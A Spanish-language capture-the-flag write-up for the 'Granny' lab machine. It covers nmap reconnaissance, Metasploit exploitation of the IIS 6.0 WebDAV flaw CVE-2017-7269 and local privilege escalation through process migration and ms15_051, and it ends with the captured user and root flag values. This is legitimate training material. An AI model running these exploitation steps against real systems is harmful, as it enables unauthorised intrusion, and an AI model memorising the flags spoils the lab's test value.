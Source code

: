 
![[ 20250720125841.png]](granny-images/20250720125841.png)

# NMAP

primero realizamos un escaneo básico de nmap

```bash
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.182.8 -oG allPorts
```

ahora realizamos un segundo escaneo con scripts básicos de nmap para sacar servicios y puertos

```bash 
nmap -p80 -sCV 10.129.182.8 -oN targeted
```

![[ 20250720130200.png]](granny-images/20250720130200.png)

aqui vemos el servicio y version del puerto 80 en este caso `Microsoft IIS httpd 6.0`

buscamos en google para ver que encontramos 

![[ 20250720130254.png]](granny-images/20250720130254.png)

aqui podemos ver que la maquina es vulnerable al  `CVE-2017-7269`

por lo que vamos a tratar de explotar la vulnerabilidad con metasploit

# metasploit

abrimos la terminal de metasploit 

```bash
msfdb run
```

hacemos una busqueda de exploits con la vulnerabilidad

```bash
search CVE-2017-7269
```

![[ 20250720130510.png]](granny-images/20250720130510.png)

utilizamos el exploit encontrado

```bash
use 0
```

vamos a cambiar las opciones 

```bash
options
```

-  RHOSTS - IP VCTIMA
- LHOST - NUESTRA IP
- (OPCIONAL) LPORT - PUERTO A ELEGIR DE NUESTO SISTEMA 
	-hay veces que los sistemas bloquean el puerto 4444 que es el que usa metasploit por defecto por lo que a veces es mejor cambiarlo

```bash
set PARAMETRO DATA
```

EJEMPLO:

```bash
set RHOSTS 10.129.182.8
```

y lanzamos el exploit 

```bash
epxloit
```

![[ 20250720130753.png]](granny-images/20250720130753.png)

conseguimos shell como meterpreter

Al tratar de entrar en la carpeta de administrador vemos que no tenemos permisos

![[ 20250720130822.png]](granny-images/20250720130822.png)

# escalada de privilegios

Tenemos que migrar hacia un servicio que nos de permisos de administrador.

Lo primero que haremos será tratar de conseguir una ruta de escalada de privilegios lo haremos usando la herramienta 

```bash
run post/multi/recon/local_exploit_suggester 
```

Esta herramienta hará un escaneo de vulnerabilidades para escalada de privilegios en el localhosts de la maquina victima

![[ 20250720131113.png]](granny-images/20250720131113.png)

aqui nos sugiere utilizar algunos exploits 

para poder utilizarlos tendremos que migrar a algún servicio con permisos para ello utilizaremos `ps` para ver que servicios están activos

```bash
ps
```

![[ 20250720131527.png]](granny-images/20250720131527.png)

en mi caso utilizare este con ID 1896

para migrar haremos el comando:

```bash
migrate 1896
```

realizaremos un background para dejar la sesion suspendida y poder utilizarla después

```bash
background
```

En la maquina grandpa que tiene la misma vulnerabilidad utilizamos el modulo `exploit/windows/local/ms14_070_tcpip_ioctl `
para cambiar un poco y ver como de funcionales son el resto de módulos en esta maquina utilizaremos el `exploit/windows/local/ms15_051_client_copy_image`
ambos módulos funcionan por lo que la elección de uno u otro es por preferencia del usuario en este caso. en otros casos puede que solo funcione uno por lo que debemos probar con todos los módulos recomendados hasta que uno sea efectivo

 ```bash
 use exploit/windows/local/ms15_051_client_copy_image
```

cambiamos los parámetros

-  RHOSTS - IP VCTIMA
-  SESSION - Sesion de meterpreter suspendida si habéis seguido los pasos será la numero 1
```bash
set SESSION 1
```


lanzamos el exploit

```bash
exploit
```

![[ 20250720132103.png]](granny-images/20250720132103.png)

y obtenemos meterpreter con privilegios

# Flags

## User 

![[ 20250720132212.png]](granny-images/20250720132212.png)

la flag esta en el directorio : C:\Documents and Settings\Lakis\Desktop

user : 700c5dc163014e22b3e408f8703f67d1

## Root

![[ 20250720132305.png]](granny-images/20250720132305.png)

la flag esta en el directorio : C:\Documents and Settings\Administrator\Desktop

root : aa4beed1c0584445ab463a6747bd06e9
